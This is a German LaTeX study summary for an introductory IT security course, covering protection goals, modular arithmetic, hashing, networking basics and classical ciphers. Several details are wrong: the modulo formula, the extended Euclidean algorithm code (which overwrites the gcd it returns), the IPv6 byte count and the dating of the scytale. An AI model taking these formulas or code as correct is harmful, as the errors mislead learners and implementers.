\chapter{Einleitung} % 1.1, 8.4, 8.12
    \begin{figure}[H]
    	\centering
    	\fbox{\parbox[c]{0.5\textwidth}{\centering Komplexität ist der (erste) Feind der Sicherheit. \\ Sicherheit selbst ist komplex.}}
    \end{figure}

    \section{Begriffe}
        \begin{description}
        	\item[Vulnerability] Schwachstelle eines Systems.
        	\item[Threat] Bedrohung. Umstand oder Ereignis, durch die/das Schaden entstehen kann.
        	\item[Threat Consequence] Gefahr/Gefährdung. Folge, wenn eine Bedrohung auf eine Schwachstelle trifft.
        	\item[Threat Action /Exploit] Schadensvorfall. Konkreter Umstand oder Ereignis, durch das ein Schaden entsteht.
        	\item[Countermeasure (Control)] Gegenmaßnahme, um Schwachstelle oder Bedrohung zu mindern oder zu beseitigen.
        \end{description}
    % end

    \section{Risiko}
        Das Risiko eines Angriffs setzt sich aus dem Wert der Information, die es zu schützen gilt und der Menge an Informationen zusammen.
    % end

    \section{Schutzziele}
        Schutzziele lassen sich grob in zwei Kategorien aufteilen
        \begin{description}
        	\item[Safety] Bedrohungen, die durch Fehler des Nutzers oder äußere Einflüsse (bspw. Brand) entstehen. Wird häufig auch mit \textit{Betriebssicherheit} übersetzt.
        	\item[Security] Die Sicherheit des Systems vor Angriffen, die mutwillig durchgeführt werden.
        \end{description}

        \begin{figure}[H]
        	\centering
        	\begin{tikzpicture}[align = center]
            	\coordinate (c) at (0, 0);
            	\coordinate (i) at (-2, -3.5);
            	\coordinate (a) at (2, -3.5);
            	
            	\node [above = 0.1 of c] {Confidentiality \\ Vertraulichkeit};
            	\node [below = 0.1 of i] {Integrity \\ Integrität};
            	\node [below = 0.1 of a] {Availability \\ Verfügbarkeit};
            	
            	\draw [rounded corners, line width = 0.1cm] (c) -- (i) -- (a) -- cycle;
        	\end{tikzpicture}
            \caption{Schutzziele (C.I.A.)}
        \end{figure}
        Dies sind die drei Schutzziele, die in CSS betrachtet werden. Ein Schutzziel beschreibt eine Sache, die es zu schützen gilt. In dem obigen Dreieck sind die folgenden Schutzziele betrachtet:
	    \begin{description}[leftmargin = 6cm]
	    	\item[Confidentiality/Vertraulichkeit] Mitlesen von Informationen
	    	\item[Integrity/Integrität] Umleiten/Ändern von Kommunikation
	    	\item[Availability/Verfügbarkeit] \enquote{DoS}-Angriffe
	    \end{description}
    
	    Zusätzlich gibt es noch eine Reihe weiterer Schutzziele, wie sie z.B. in der ISO/IEC-27000 definiert werden (aufgeteilt nach Security und Safety):
	    \begin{itemize}
	    	\item Safety (keine weiteren Unterkategorien)
	    	\item Security
			    \begin{itemize}
			    	\item Authentizität (\enquote{Authenticity}) \\ Echtheit und Glaubwürdigkeit eines Objekts, die kryptografisch überprüfbar ist.
			    	\item Integrität (\enquote{Integrity}) \\ Gewährleistung, das nicht autorisierte Subjekte ein Objekt nicht unbemerkt ändern können.
			    	\item Vertraulichkeit (\enquote{Confidentiality}) \\ Sicherstellung, dass das System keine unautorisierte Informationsgewinnung ermöglicht.
			    	\item Verfügbarkeit (\enquote{Availability}) \\ Gewährleistung, dass autorisierte Subjekte nicht in der Funktionalität beeinträchtigt werden.
			    	\item Verbindlichkeit (\enquote{Non Repudiation}) \\ Zuordenbarkeit einer Aktion zu einem Subjekt ohne der Möglichkeit der Abstreitbarkeit.
			    \end{itemize}
	    \end{itemize}
    % end
% end

\chapter{Grundlagen}
    \section{Modulare Arithmetik}
        \begin{itemize}
        	\item In der modularen Arithmetik wird \enquote{im Kreis} gerechnet.
        	\item Um \( k \textbf{ mod } N \) zu berechnen gibt es mehrere Ansätze:
            	\begin{enumerate}
            		\item \( k \textbf{ mod } N = N - \lfloor \frac{k}{N} \rfloor \cdot N \)
            		\item Um das Ergebnis zu erhalten \(N\) so oft von \(k\) abziehen, bis das Ergebnis in \( [0,\, N - 1] \) liegt.
            	\end{enumerate}
        \end{itemize}
        
        \subsection{Modulo als Struktur vs. Operator}
            \begin{itemize}
            	\item Modulo kann einerseits als Struktur (Restklassenring) oder als Operator angesehen werden.
            	\item In diesem Skript wird Modulo im Falle einer Struktur normal und im Falle eines Operators fett geschrieben.
            	\item Um eine Gleichung zu markieren, dass sie nur in einem Restklassenring \( \mathbb{Z} _ N \) gültig ist, wird \(\text{mod } N \) hinter die Gleichung geschrieben.
            	\item Beispiele:
	            	\begin{align*}
		            	18 &=\, 3 \mod 5 \tag{Restklassenring} \\
		            	18 &\neq\, 3 \textbf{ mod } 5 \tag{Operator} \\
		            	3 \cdot 6 &=\, 13 \,=\, 3 \mod 5 \tag{Restklassenring} \\
		            	3 \cdot 6 \textbf{ mod } 5 &=\, 13 \textbf{ mod } 5 \,=\, 3 \textbf{ mod } 5 \tag{Operator} \\
	            	\end{align*}
	            \item Es gilt also \( a = b \mod N \iff a \textbf{ mod } N = b \textbf{ mod } N \)
	            \item Es ist bei Verfahren wie Verschlüsselung allerdings üblich, das Ergebnis so weit zu reduzieren, dass es in \( [0,\, N - 1] \) liegt.
            \end{itemize}
        % end
        
        \subsection{Multiplikatives Inverses}
            Für eine gegebene Zahl \(k \in \mathbb{Z} \) kann das multiplikative Inverse \( k^{-1} \) unter \(N \in \mathbb{N} \) (mit \( k \cdot k^{-1} = 1 \mod N \)) mit dem \textit{erweiterten euklidischen Algorithmus} berechnet werden. Dieser berechnet für zwei Zahlen \(a\), \(b\) zwei Zahlen \( x \), \( y \) die folgende Eigenschaft haben:
            \begin{equation*}
	            a \cdot x + b \cdot y = \ggT(a, b) \eqqcolon q
            \end{equation*}
            Um das multiplikative Inverse zu bestimmen wird \( a = N \) und \( b = k \) gesetzt. Dann ist \(y\) das multiplikative Inverse zu \(k\), also \(k^{-1} = y \mod N \). Meistens wird das Ergebnis nun noch so weit reduziert, dass es in \( [0, N - 1] \) liegt.
            
            Der erweiterte euklidische Algorithmus sieht in der rekursiven Variante wie folgt aus:
            \begin{figure}[H]
            	\centering
            	\begin{lstlisting}[language = Python]
# Rueckgabe = (q, x, y)
def eggt(a, b):
	if b == 0:
		return a, 1, 0
	else:
		q, x, y = eggt(b, a % b)
		q = a // b
		return q, y, x - y * q
\end{lstlisting}
				\texttt{//} entspricht einer Ganzzahldivision, \texttt{\%} der Modulo-Operation
            	\caption{Erweiterter euklidischer Algorithmus}
            \end{figure}
        
            \paragraph{Beispiel: Erweiterter Euklidischer Algorithmus}
	            In diesem Beispiel wird ein normaler erweiterter euklidischer Algorithmus durchgeführt.
	            
	            Seien \( a = 483 \), \( b = 136 \):
	            \begin{table}[H]
	            	\centering
	            	\begin{tabular}{|c|c|c|c|c|}
	            		\hline
	            		      \(a\)       &  \(b\)  & \(q\) &        \(x\)        &        \(y\)        \\ \hline
	            		     \(483\)      & \(136\) & \(3\) & \underline{\(-29\)} & \underline{\(103\)} \\ \hline
	            		     \(136\)      & \(75\)  & \(1\) &       \(16\)        &       \(-29\)       \\ \hline
	            		     \(75\)       & \(61\)  & \(1\) &       \(-13\)       &       \(16\)        \\ \hline
	            		     \(61\)       & \(14\)  & \(4\) &        \(3\)        &       \(-13\)       \\ \hline
	            		     \(14\)       &  \(5\)  & \(2\) &       \(-1\)        &        \(3\)        \\ \hline
	            		      \(5\)       &  \(4\)  & \(1\) &        \(1\)        &       \(-1\)        \\ \hline
	            		      \(4\)       &  \(1\)  & \(4\) &        \(0\)        &        \(1\)        \\ \hline
	            		\underline{\(1\)} &  \(0\)  & \(\)  &        \(1\)        &        \(0\)        \\ \hline
	            	\end{tabular}
	            	\caption{Erweiterter euklidischer Algorithmus: Beispiel}
	            \end{table}
	            Somit gilt \( 483 \cdot -29 + 136 \cdot 103 = 1 \) und damit auch \( c \cdot (483 \cdot -29 + 136 \cdot 103) = c \).
            % end
            
            \paragraph{Beispiel: Multiplikatives Inverses}
	            In diesem Beispiel wird der euklidische Algorithmus dazu genutzt, um ein multiplikatives Inverses zu finden.
	            
	            Es soll das multiplikative Inverse zu \(k = 11\) unter \(N = 17\) bestimmt werden:
	            \begin{table}[H]
	            	\centering
	            	\begin{tabular}{|c|c|c|c|c|}
	            		\hline
	            		      \(N\)       & \(k\)  & \(q\) &       \(x\)       &     \(k^{-1}\)     \\ \hline
	            		     \(17\)       & \(11\) & \(1\) & \underline{\(2\)} & \underline{\(-3\)} \\ \hline
	            		     \(11\)       & \(6\)  & \(1\) &      \(-1\)       &       \(2\)        \\ \hline
	            		      \(6\)       & \(5\)  & \(1\) &       \(1\)       &       \(-1\)       \\ \hline
	            		      \(5\)       & \(1\)  & \(5\) &       \(0\)       &       \(1\)        \\ \hline
	            		\underline{\(1\)} & \(0\)  & \(\)  &       \(1\)       &       \(0\)        \\ \hline
	            	\end{tabular}
	            	\caption{Erweiterter euklidischer Algorithmus: Beispiel}
	            \end{table}
	            Also ist \(-3\) ein multiplikatives Inverses und somit auch alle \(k^{-1} = -3 \mod 17\). Maximal reduziert ist \(k^{-1}=14\).
	            
	            Es gilt somit \(k \cdot k^{-1} = 11 \cdot 14 = 154 = 1 \mod 17\).
            % end
        % end
    % end

    \section{Hashfunktionen und -werte}
        Eine \textit{Hashfunktion} ist eine Funktion \( H : \{0,1\}^* \rightarrow \{0,1\}^n \), die eine beliebig lange Eingabe auf eine feste Ausgabelänge abbildet. Diese Ausgaben sind üblicherweise \(160\), \(256\), \(384\) oder \(512\) Bit lang. Die Ausgabe einer Hashfunktion wird \textit{Hashwert} oder \textit{Message Digest} genannt.
        
        \subsection{Kollisionen}
            Nachrichten \(m, m'\) heißen \textit{Kollisionen} gdw. gilt \( H(m) = H(m') \) (der Hashwert der Nachrichten ist also der gleiche).
            
            Damit eine Hashfunktion nutzbar ist, muss sie \textit{Kollisionsresistent} sein. Da Kollisionen notwendigerweise existieren (der Bildraum ist größer als der Definitionsbereich), müssen diese schwer zu finden sein. Diese Kollisionsresistenz ist notwendig, da ein Angreifer z.B. bei Signaturen die Nachricht fälschen könnte, obwohl der Hashwert gleich bleibt \(\rightarrow\) eine  abgefangene Signatur wäre weiterhin gültig.
        % end
        
        \subsection{Hashfunktionen in der Praxis}
            \begin{description}
            	\item[MD5] \( \text{MD5} : \{0,1\}^* \rightarrow \{0,1\}^{128} \) \hfill(\textbf{Unsicher!}) \\ Wurde 1991 entwickelt, ist aufgrund von einfachen Berechnungen um Kollisionen zu finden aber nicht mehr sicher!
            	\item[SHA-1] \( \text{SHA-1} : \{0,1\}^{2^{64}-1} \rightarrow \{0,1\}^{160} \) \hfill(\textbf{Unsicher!}) \\ Wurde 1995 von der NIST standardisiert, sollte aufgrund der SHAttered-Angriffe nicht mehr verwendet werden.
            	\item[SHA-2] \( \text{SHA-2} : \{0,1\}^{2^{128}-1} \rightarrow \{0,1\}^{n} \) \\ Wurde 2005 von der NIST für \( n = 224, 256, 384, 512 \) standardisiert
            	\item[SHA-3] \( \text{SHA-3} : \{0,1\}^* \rightarrow \{0,1\}^{n} \) \\ Wurde 2015 von der NIST standardisiert für \( n = 224, 256, 384, 512 \) standardisiert.
            \end{description}
        % end
    % end
    
    \section{Eulersche \(\varphi\)-Funktion}
        Die eulersche \(\varphi\)-Funktion \( \varphi : \mathbb{N} \rightarrow \mathbb{N} \) berechnet für eine beliebige natürliche Zahl die Anzahl Teilerfremder Zahlen unter der Zahl, also:
        \begin{equation*}
	        \varphi : \mathbb{N} \rightarrow \mathbb{N} : n \mapsto \lvert \{ k \in \mathbb{N} \,\vert\, 1 \leq k \leq n \land \ggT(k, n) = 1 \} \rvert
        \end{equation*}
        Für die \(\varphi\)-Funktion gelten folgende Rechenregeln:
        \begin{itemize}
        	\item Für \(n > 1\) und \(p\) Prim gilt: \tabto{4.7cm} \( \varphi(n) = n \cdot \Pi_{p \vert n} (1 - \frac{1}{p}) \)
        	\item Für \(p\) Prim gilt: \tabto{4.7cm} \( \varphi(p) = p - 1 \)
        	\item Für \(p\) Prim gilt: \tabto{4.7cm} \( \varphi(p^n) = p^{n-1}(p-1) \)
        	\item Für teilerfremde Zahlen \( m, n \in \mathbb{N} \) gilt: \tabto{8.2cm} \( \varphi(m \cdot n) = \varphi(m) \cdot \varphi(n) \) \\
        	      und damit auch für \(p \cdot q = n \in \mathbb{N} \) mit \(p,q\) Prim: \tabto{8.2cm} \( \varphi(n) = (p - 1) \cdot (q - 1) \)
        \end{itemize}
    % end

    \section{Netzwerkgrundlagen}
        Siehe hierzu auch: CNuvS Zusammenfassung unter \HREF{https://dmken.com/cs}.
    
        \subsection{Schichtenmodelle}
            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}[layer/.style = { minimum height = 1cm, minimum width = 4cm, anchor = north }]
                	%\draw (-3,1) grid (11,-8);
            	
					\node [layer] (a7) {7: Application Layer};
					\node [layer, below = 0 of a7] (a6) {6: Presentation Layer};
					\node [layer, below = 0 of a6] (a5) {5: Session Layer};
					\node [layer, below = 0 of a5] (a4) {4: Transport Layer};
					\node [layer, below = 0 of a4] (a3) {3: Network Layer};
					\node [layer, below = 0 of a3] (a2) {2: Data Link Layer};
					\node [layer, below = 0 of a2] (a1) {1: Physical Layer};
					
					\coordinate [above left = 0 of a7] (A0);
					\coordinate [below = 1 of A0] (A1);
					\coordinate [below = 1 of A1] (A2);
					\coordinate [below = 1 of A2] (A3);
					\coordinate [below = 1 of A3] (A4);
					\coordinate [below = 1 of A4] (A5);
					\coordinate [below = 1 of A5] (A6);
					\coordinate [below = 1 of A6] (A7);
					\coordinate [above right = 0 of a7] (B0);
					\coordinate [below = 1 of B0] (B1);
					\coordinate [below = 1 of B1] (B2);
					\coordinate [below = 1 of B2] (B3);
					\coordinate [below = 1 of B3] (B4);
					\coordinate [below = 1 of B4] (B5);
					\coordinate [below = 1 of B5] (B6);
					\coordinate [below = 1 of B6] (B7);
					
					\draw (A7) -- (A0) -- (B0) -- (B7) -- cycle;
					\draw (A1) -- (B1);
					\draw (A2) -- (B2);
					\draw (A3) -- (B3);
					\draw (A4) -- (B4);
					\draw (A5) -- (B5);
					\draw (A6) -- (B6);
					
					\coordinate [right = 3 of B0] (C0);
					\coordinate [right = 3 of B3] (C1);
					\coordinate [right = 3 of B4] (C2);
					\coordinate [right = 3 of B5] (C3);
					\coordinate [right = 3 of B7] (C4);
					\coordinate [right = 4cm of C0] (D0);
					\coordinate [right = 4cm of C1] (D1);
					\coordinate [right = 4cm of C2] (D2);
					\coordinate [right = 4cm of C3] (D3);
					\coordinate [right = 4cm of C4] (D4);
					
					\node [layer, anchor = north west, below right = 0 of C0, minimum height = 3cm] (c4) {4: Application Layer};
					\node [layer, anchor = north west, below right = 0 of C1] (c3) {3: Transport Layer};
					\node [layer, anchor = north west, below right = 0 of C2] (c2) {2: Internet Layer};
					\node [layer, anchor = north west, below right = 0 of C3, minimum height = 2cm] (c1) {1: Link Layer};
					
					\draw (C4) -- (C0) -- (D0) -- (D4) -- cycle;
					\draw (C1) -- (D1);
					\draw (C2) -- (D2);
					\draw (C3) -- (D3);
					
					\node [layer, anchor = north west, below right = 0 of A7] {OSI Modell};
					\node [layer, anchor = north west, below right = 0 of C4] {TCP/IP Modell};
            	\end{tikzpicture}
            	\caption{Netzwerk-Schichtenmodelle}
            \end{figure}
        % end

        \subsection{Kennzeichnungen}
            \begin{itemize}
            	\item IP Adresse
                	\begin{itemize}
                		\item IPv4: 4 Byte = 32 Bit
                		\item IPv6: 816 Byte = 128 Bit
                		\item Beispiel: \texttt{130.83.22.1}
                	\end{itemize}
            	\item MAC Adresse
                	\begin{itemize}
                		\item 6 Byte = 48 Bit
                		\item Beispiel: \texttt{00:15:FE:23:D4:CE}
                	\end{itemize}
            \end{itemize}
        % end

        \subsection{Übersetzung IP \(\leftrightarrow\) MAC}
            \begin{itemize}
            	\item Eine IP-Adresse kann mit dem \textit{Address Resolution Protocol} (ARP) in eine MAC-Adresse \enquote{übersetzt} werden.
            	\item Mit \textit{Reverse ARP} geht dies in die andere Richtung.
            	\item Der Client sendet dabei einen ARP-Request \enquote{Wem gehört die IP-Adresse X?} als Broadcast durch das Netzwerk.
            	\item Der betroffene Host Antwortet dann seine MAC-Adresse.
            	\item Bei Reverse ARP entsprechend ein Paket mit \enquote{Wem gehört die MAC-Adresse Y?}
            \end{itemize}
        % end

        \subsection{Routing}
            \begin{itemize}
            	\item Einzelne Hosts halten Routing-Tabellen vor.
            	\item In diesen steht, welche Pakete an welches Netz, bzw. an welchen Host, sie gesendet werden müssen.
            	\item Dies funktioniert rekursiv, sodass die Knoten in einem Netzwerk die Pakete meistens einfach an einen übergeordneten Router weiterleiten.
            \end{itemize}
        % end

        \subsection{DHCP}
            \begin{itemize}
            	\item Das \textit{Dynamic Host Configuration Protocol} (DHCP) dient der automatischen Konfiguration von neuen Hosts im Netzwerk.
            	\item Dabei sucht der Host zuerst einen DHCP-Server, der dem Host dann mindestens eine IP-Adresse zuweist.
            	\item Es kann noch weitere Konfiguration übermittelt werden, z.B. DNS-Server oder Routing-Tabellen.
            \end{itemize}
        % end

        \subsection{DNS}
            \begin{itemize}
            	\item Das \textit{Domain Name System} (DNS) dient der Auflösung von Domains in IP-Adressen.
            	\item Dabei fragt ein Host einen sogenannten \textit{DNS-Server} nach der IP-Adresse für eine bestimmte Domain.
            	\item Dieser weiß dies entweder selbst oder leitet die Anfrage weiter.
            \end{itemize}
        % end

        \subsection{Ports}
            \begin{itemize}
            	\item Ports sind in TCP und UDP 16 Bit lange \enquote{Anhängsel} an eine IP-Adresse, um einen Prozess zu identifizieren.
            	\item Alle Ports unter 1024 sind dem root-Nutzer vorbehalten.
            	\item Ports werden an vielen Stellen standardisiert und bestimmen Diensten zugewiesen, bspw.:
            \end{itemize}
			\begin{table}[H]
				\centering
				\begin{tabular}{l | l}
					\textbf{Port} & \textbf{Dienst} \\ \hline
					25            & SMTP            \\
					80            & HTTP            \\
					143           & IMAP            \\
					443           & HTTPS           \\
					993           & IMAPS
				\end{tabular}
				\caption{Standardports: Beispiele}
			\end{table}
        % end

        \subsection{ICMP}
            \begin{itemize}
            	\item Das \textit{Internet Control Message Protocol} (ICMP) dient Informations- und Fehlermeldungen des Netzwerks.
            	\item Bei der Nutzung von IPv6 funktioniert das Protokoll etwas anders und ist unter dem Namen \textit{ICMPv6} zu finden.
            	\item Hierüber laufen z.B. Ping-Anfragen.
            	\item Die ICMP-Anfragen werden in Anfragetypen gegliedert, wobei es die folgenden gibt:
            \end{itemize}
			\begin{table}[H]
				\centering
				\begin{tabular}{c | l | c}
					\textbf{ID} & \textbf{Name}                 & \textbf{Zusammenhängend mit} \\ \hline
					     0      & Echo (Ping) Reply             & 8                            \\
					     3      & Destination Unreachable       &  \\
					     4      & Source Quench                 &  \\
					     5      & Redirect                      &  \\
					     8      & Echo (Ping) Request           & 0                            \\
					     9      & Router Advertisement          & 10                           \\
					    10      & Router Solicitation           & 9                            \\
					    11      & Time Exceeded                 &  \\
					    12      & Parameter Problem             &  \\
					    13      & Timestamp Request             & 14                           \\
					    14      & Timestamp Reply               & 13                           \\
					    15      & Information Request (Obsolet) & 16                           \\
					    16      & Information Reply (Obsolet)   & 15                           \\
					    17      & Address Mask Request          & 18                           \\
					    18      & Address Mask Reply            & 17
				\end{tabular}
				\caption{ICMP Typen}
			\end{table}
        % end

        \subsection{TCP}
            \begin{itemize}
            	\item Das \textit{Transport Control Protocol} (TCP) ist, im Gegensatz zu UDP, Verbindungsorientiert und agiert auf der Transport-Schicht.
            	\item Der Verbindungsaufbau läuft durch den sogenannten \textit{Handshake} ab:
            \end{itemize}
            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}[main/.style = { minimum height = 1.5cm }]
	            	\ciscoClient{client}{main}{};
	            	\ciscoServer{server}{main, right = 4 of client}{};
	            	\coordinate [below = 0.5 of client] (c1);
	            	\coordinate [below = 1 of c1] (c2);
	            	\coordinate [below = 1 of c2] (c3);
	            	\coordinate [below = 0.5 of server] (s1);
	            	\coordinate [below = 1 of s1] (s2);
	            	\coordinate [below = 1 of s2] (s3);
	            	
	            	\draw [->] (c1) -- node[above]{\texttt{SYN}} (s1);
	            	\draw [<-] (c2) -- node[above]{\texttt{SYN-ACK}} (s2);
	            	\draw [->] (c3) -- node[above]{\texttt{ACK}} (s3);
            	\end{tikzpicture}
            	\caption{TCP: Handshake}
            \end{figure}
        % end
    % end

    \section{SQL}
        Siehe hierzu auch: InfMan Zusammenfassung (Teil 1) unter \HREF{https://dmken.com/cs}.
    
        \begin{itemize}
        	\item Die \textit{Structured Query Language} (SQL) ist eine einfache Sprache, um Daten aus relationalen Datenbanken abzufragen.
        	\item Beispiel: \lstinline[language = SQL]|SELECT * FROM user WHERE username = 'mmustermann';|
        \end{itemize}
    % end
% end

\chapter{Verschlüsselung} % 8.5
    Verschlüsselung sorgt für Vertraulichkeit, sorgt im Allgemeinen aber nicht für Integrität oder Verfügbarkeit!
    
    Im allgemeinen Modell Verschlüsselung gibt es zwei reguläre Teilnehmer \textit{Alice} und \textit{Bob}, die miteinander kommunizieren (wollen). Ein dritter Teilnehmer namens \textit{Eve} versucht hierbei, die Informationen abzuhören und an die Daten zu kommen. Zum Schutz hiergegen Stehen Alice und Bob zwei Funktionen \( \Enc(\dots) \) und \( \Dec(\dots) \) zur Verfügung, die eine Information verschlüsseln/entschlüsseln. Das Ergebnis der Verschlüsselungsfunktion wird dabei \textit{Ciphertext} genannt. Aus diesem Ciphertext darf Eve keine sinnvollen Informationen über die Nachricht erhalten. Grafisch veranschaulicht sieht dies so aus:
    \begin{figure}[H]
    	\centering
    	\begin{tikzpicture}
            \node [scale = 2.5, label = above:{Alice}, alice] (alice) {};
            \node [scale = 2.5, right = 4 of alice, label = above:{Eve}, criminal, evil] (eve) {};
            \node [scale = 2.5, right = 4 of eve, label = above:{Bob}, bob] (bob) {};
        	
        	\node [below = 0.5 of alice] (alice1) {Nachricht \(m\)};
        	\node [below = 0 of alice1] (alice2) {Ciphertext \, \( C \leftarrow \Enc(m) \)};
        	\coordinate [below = 0.5 of alice2] (alice3);
        	\path let \p1 = (alice3), \p2 = (bob) in coordinate (bob0) at (\x2, \y1);
        	\node [below = 0.5 of bob0] (bob1) {Nachricht \, \( m \leftarrow \Dec(m) \)};
        	\draw [->] (alice3) -- node[above](c){\(C\)} (bob0);
        	\draw [dashed, ->] (c) -- (eve);
    	\end{tikzpicture}
    	\caption{Verschlüsselungsprinzip}
    \end{figure}

    \section{Kerckhoffs-Prinzip}
        Das Kerckhoff-Prinzip besagt, dass die Sicherheit eines kryptographischen Systems nicht auf der Geheimhaltung des Systems (und des Verfahrens), sondern nur auf der Geheimhaltung der Schlüssel beruhen darf.
        
        Anders ausgedrückt: Kein \enquote{Security by Obscurity}.
    % end
    
    \section{Perfekte Sicherheit}
        Ein Verschlüsselungsverfahren ist perfekt sicher gdw. das Auftreten eines bestimmten Schlüssel \(k\) stochastisch unabhängig davon ist, dass ein bestimmter Klartext vorliegt. Anders ausgedrückt: Wenn ein Angreifer den Chiffretext abgefangen kann, kann er diesen nicht mit stochastischen Auffälligkeiten des Klartextraumes untersuchen. Oder auch: Der Angreifer kann genauso gut den Klartext raten wie den Klartext zu berechnen.
        
        Formalisiert mit Chiffretext \(c\) und Schlüssel \(k\) heißt dies:
        \begin{equation*}
	        P(M = m \,\vert\, C = c) = P(M = m)
        \end{equation*}
    % end

    \section{Symmetrische Verschlüsselung}
        Bei symmetrischen Verschlüsselungsverfahren benötigen Sender und Empfänger den identischen Schlüssel, um eine Nachricht korrekt zu ver- und entschlüsseln. Sender und Empfänger können auch die gleiche Person sein, bspw. bei der Verschlüsselung von Dateien, um diese in eine Cloud hochzuladen o.ä..
        
		\begin{figure}[H]
			\centering
			\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
				\node [nc, draw, label = below:{Verschlüsselung}] (enc) {\(\Enc\)};
				\node [right = 2 of enc] (c) {Ciphertext \\ \( C \)};
				\node [nc, draw, right = 2 of c, label = below:{Entschlüsselung}] (dec) {\(\Dec\)};
				
				\node [left = of enc] (m1) {Nachricht \\ \(m\)};
				\node [above = of enc] (k1) {geheimer \\ Schlüssel \\ \(k\)};
				
				\node [right = of dec] (m2) {Nachricht \\ \(m\)};
				\node [above = of dec] (k2) {geheimer \\ Schlüssel \\ \(k\)};
				
				\draw [->] (enc) -- (c);
				\draw [->] (c) -- (dec);
				\draw [->] (m1) -- (enc);
				\draw [->] (k1) -- (enc);
				\draw [->] (dec) -- (m2);
				\draw [->] (k2) -- (dec);
				
				\draw [bend left] (k1) to node[below]{Symmetrie \\ gleicher Schlüssel} (k2);
			\end{tikzpicture}
		    \caption{Prinzip der symmetrischen Verschlüsselung}
        \end{figure}
        Damit das System funktional Korrekt ist, muss für alle Nachrichten \(m\) und Schlüssel \(k\) gelten: \[ \Dec(k, \Enc(k, m)) = m \]

        \subsection{Klassiche (unsichere) Verschlüsselungsverfahren}
            \subsubsection{Skytale} % 2.7
                \begin{itemize}
                	\item Ältestes bekanntest Verschlüsselungsverfahren.
                	\item Entwickelt von den Spartanern, ca. 2500 vor Christus.
                	\item Es wird ein Stock, genannt \textit{Skytale} verwendet.
                \end{itemize}
            
                \paragraph{Verfahren}
	                Die Nachricht wir um die Skytale gewickelt und anschließend die Buchstaben von links nach rechts abgelesen. Dadurch werden die Buchstaben in der Nachricht getauscht und die Nachricht ist nicht mehr einfach lesbar. Mit einer Skytale des gleichen Durchmessers kann die Nachricht dann entschlüsselt werden.
	                
	                Hierbei handelt es sich um ein \textit{Transpositionsverfahren}.
                % end
                
                \paragraph{Geheimnis}
	                \begin{itemize}
	                	\item Der Durchmesser der Skytale.
	                \end{itemize}
                % end
            % end

            \subsubsection{Caesars Shift-Cipher}
                \paragraph{Verfahren}
                    Jeder Buchstabe im Alphabet wird durch den nächsten (übernächsten, drittnächsten, etc.) Buchstaben im Alphabet ersetzt. Zum Beispiel \( A \rightarrow D \), \( B \rightarrow E \), \( C \rightarrow F \), \dots.
                    
                    Hierbei handelt es sich um ein Verfahrend der \textit{mono-alphabetischen Substitution} (jeder Buchstabe entspricht genau einem anderen Buchstaben).
                % end
                
                \paragraph{Geheimnis}
                    \begin{itemize}
                    	\item Die Anzahl zu drehender Buchstaben.
                    \end{itemize}
                % end
                
                \paragraph{Angriffe}
                    Durch zählen der Buchstabe und der Worthäufigkeit in einer Sprache (z.B. ist \(E\) der häufigste Buchstabe im Deutschen) lässt sich herausfinden, welcher Buchstabe dem \(E\) entspricht. Ist ein Buchstabe gefunden, ergibt sich durch den Abstand des Buchstabens zu dem Klartext-Buchstaben das zur Entschlüsselung benötigte Geheimnis. Dieser Angriff wird \textit{Frequenzanalyse} genannt.
                % end
                
                \paragraph{Beispiel}
                    \begin{itemize}
                    	\item Geheimer Schlüssel: \tabto{5cm} \( k = 5 \)
                    \end{itemize}
                
                    \subparagraph{Verschlüsselung}
	                    \begin{enumerate}
	                    	\item[] Klartext: \( m = \texttt{HALLOWELTICHBINKLARTEXT} \)
	                    	\item Bildung der Substitutionen:
		                    	\begin{equation*}
			                    	\begin{matrix*}
				                    	\texttt{A} \rightarrow \texttt{F} & \qquad \texttt{B} \rightarrow \texttt{G} & \qquad \texttt{C} \rightarrow \texttt{H} \\
				                    	\texttt{D} \rightarrow \texttt{I} & \qquad \texttt{E} \rightarrow \texttt{J} & \qquad \texttt{F} \rightarrow \texttt{K} \\
				                    	\texttt{G} \rightarrow \texttt{L} & \qquad \texttt{H} \rightarrow \texttt{M} & \qquad \texttt{I} \rightarrow \texttt{N} \\
				                    	\texttt{J} \rightarrow \texttt{O} & \qquad \texttt{K} \rightarrow \texttt{P} & \qquad \texttt{L} \rightarrow \texttt{Q} \\
				                    	\texttt{M} \rightarrow \texttt{R} & \qquad \texttt{N} \rightarrow \texttt{S} & \qquad \texttt{O} \rightarrow \texttt{T} \\
				                    	\texttt{P} \rightarrow \texttt{U} & \qquad \texttt{Q} \rightarrow \texttt{V} & \qquad \texttt{R} \rightarrow \texttt{W} \\
				                    	\texttt{S} \rightarrow \texttt{X} & \qquad \texttt{T} \rightarrow \texttt{Y} & \qquad \texttt{U} \rightarrow \texttt{Z} \\
				                    	\texttt{V} \rightarrow \texttt{A} & \qquad \texttt{W} \rightarrow \texttt{B} & \qquad \texttt{X} \rightarrow \texttt{C} \\
				                    	\texttt{Y} \rightarrow \texttt{D} & \qquad \texttt{Z} \rightarrow \texttt{E}
			                    	\end{matrix*}
			                    \end{equation*}
	                    	\item Verdrehung: \( \Enc(k, m) = \Enc(5, \texttt{HALLOWELTICHBINKLARTEXT}) = \texttt{MFQQTBJQYNHMGNSPQFWYJCY} \)
	                    	\item[] Ciphertext: \( c = \texttt{MFQQTBJQYNHMGNSPQFWYJCY} \)
	                    \end{enumerate}
                    % end
                    
                    \subparagraph{Entschlüsselung}
	                    \begin{enumerate}
	                    	\item[] Ciphertext: \( c = \texttt{MFQQTBJQYNHMGNSPQFWYJCY} \)
	                    	\item Verdrehung: \( \Dec(k, c) = \Dec(5, \texttt{MFQQTBJQYNHMGNSPQFWYJCY}) = \texttt{HALLOWELTICHBINKLARTEXT} \)
	                    	\item[] Klartext: \( m = \texttt{HALLOWELTICHBINKLARTEXT} \)
	                    \end{enumerate}
                    % end
                % end
            % end

            \subsubsection{Vigenere-Chiffre}
                \paragraph{Verfahren}
                    Der geheime Schlüssel wird so oft aneinandergehängt oder abgeschnitten, bis er so lang ist wie die Nachricht. Dann wird jeder Klartext-Buchstabe um so viele Buchstaben weiter gedreht, wie die Position des Passwort-Buchstabens im Alphabet.
                    
                    \warning{Es muss zusätzlich bekannt sein, ob das Alphabet Null- oder Eins-indiziert ist! Also ob \(A\) den Index \(0\) oder \(1\) hat.}
                    
                    Hierbei handelt es sich um ein Verfahren der \textit{poly-alphabetischen Substitution} (jeder Buchstabe kann jedem anderen Buchstaben entsprechen).
                    
